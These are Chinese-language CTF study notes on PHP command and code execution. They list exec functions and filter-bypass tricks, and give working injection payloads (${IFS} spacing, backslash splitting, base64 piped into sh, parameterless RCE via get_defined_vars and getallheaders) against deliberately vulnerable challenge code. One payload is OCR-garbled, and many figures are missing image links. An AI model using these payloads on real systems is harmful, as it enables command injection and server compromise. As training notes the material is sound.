# 命令执行

## 命令

```
system() 有回显 有返回值
passthru() 有回显 无返回值
exec() 无回显 有返回值 —— 命令执行无回显： 1、带外dnslog 2、反弹shell 3、写文件
shell_exec() 无回显 有返回值
```

命令：find / -name flag

​	在/目录下寻找flag


## RCE绕过技巧

### 空格绕过



### cat绕过



### ls过滤绕过



### 敏感字符过滤绕过



## 题目：无过滤RCE



## 题目：RCE5

```php
<?php
    highlight_file(__FILE__);
    error_reporting(0);
    if(isset($_GET['ip'])){
        if(preg_match('/\&|\/|\?|\*| |flag|ls|cat|php|\'|\"/',$_GET['ip'])){
            die('hacker!!!');
        }else{
            $ip=$_GET['ip'];
        }
        system('ping -c 1'.$ip);
    }else{
        exit();
    }

?>
```

过滤了：

```
&, /, ?, *, 空格, ', ", flag, ls, cat, php,
```

没有过滤\

```
?ip=-1;ca\t${IFS}fla\g.p\hp
```



还可以：

```
?ip=-1;tac${IFS}fla\g.p[0-z]p
```



变量绕过：



内联绕过：

```
cat `ls` 把ls执行结果cat出来 里面的文件都会被查看出来
```



## 题目：[GXYCTF2019]Ping Ping Ping

这个题发现cat、ls、``没过滤

所以直接：

```
?ip=-1;cat$IFS$9`ls`
```

查看页面源代码：



**另外的方法是base64编码**

```
?ip=-1;echo cat flag.php|base64 -d|sh
然后把cat flag.php进行base64编码
把空格换成$IFS$9
?ip=-1;echo$IFS$9Y2F0IGZsYWcucGhw|base64$IFS$9-d|sh
```

然后查看页面源代码

它上面的过滤会把以f l a g 顺序出现过的都过滤掉，比如（不能顺序出现这四个字母）

```
aafsslwwaooog
wwwfoiopllaoigpp
```

可以这样绕过：

```
?ip=-1;a=g;cat$IFS$9fla$a.php
```

# 代码执行

```
phpinfo()
file_get_contents()
eval('phpinfo()') 
assert() 内容是字符串的话，当php代码执行 assert('phpinfo()')
call_user_func('system', 'ls -alh') = system('ls -alh')
call_user_func_array('system', ['whoami'])

create_function(a,b) = function(a){b} 若a=){};phpinfo();// 则原式=function(){};phpinfo();//){b}
同理，如果b=}phpinfo();// 原式=function(a){}phpinfo();//
phpinfo可换成system('ls')
```

## 无参数RCE





scandir()是要求参数的，可以把getcwd()结果作为其参数

```
?cmd=print_r(scandir(getcwd()));
```



array_rand() 从数组中随机取出一个或多个单元（随机取出的是键名）

例如，随机取出了4：



而array_flip()可以交换数组中的键和值，那把键和值交换一下，array_rand()就能随便从数组中取出键值了

例如，随机取出了prrg_replace.php：



把print_r换成highlight_file()，随机读出flag.php的内容：



#### 那么如何读上一级内容

### 无参数RCE——通过session_id绕过



### 无参数RCE——get_defined_vars()绕过

get_defined_vars返回由所有已定义变量所组成的数组，包括环境变量、服务器变量和用户定义的变量。

current()返回数组中的当前单元 默认取第一个值

end() 将数组的内部指针指向最后一个单元

`?c=eval(end(current(get_defined_varsO);&test=system('Is'):`



加上current()



加上end()



print_r换成system



### 无参数RCE——getallheaders()绕过

加一个cat flag.php;



它不在数组的第一位或者最后一位，怎么办？利用之前那种随机的方法：

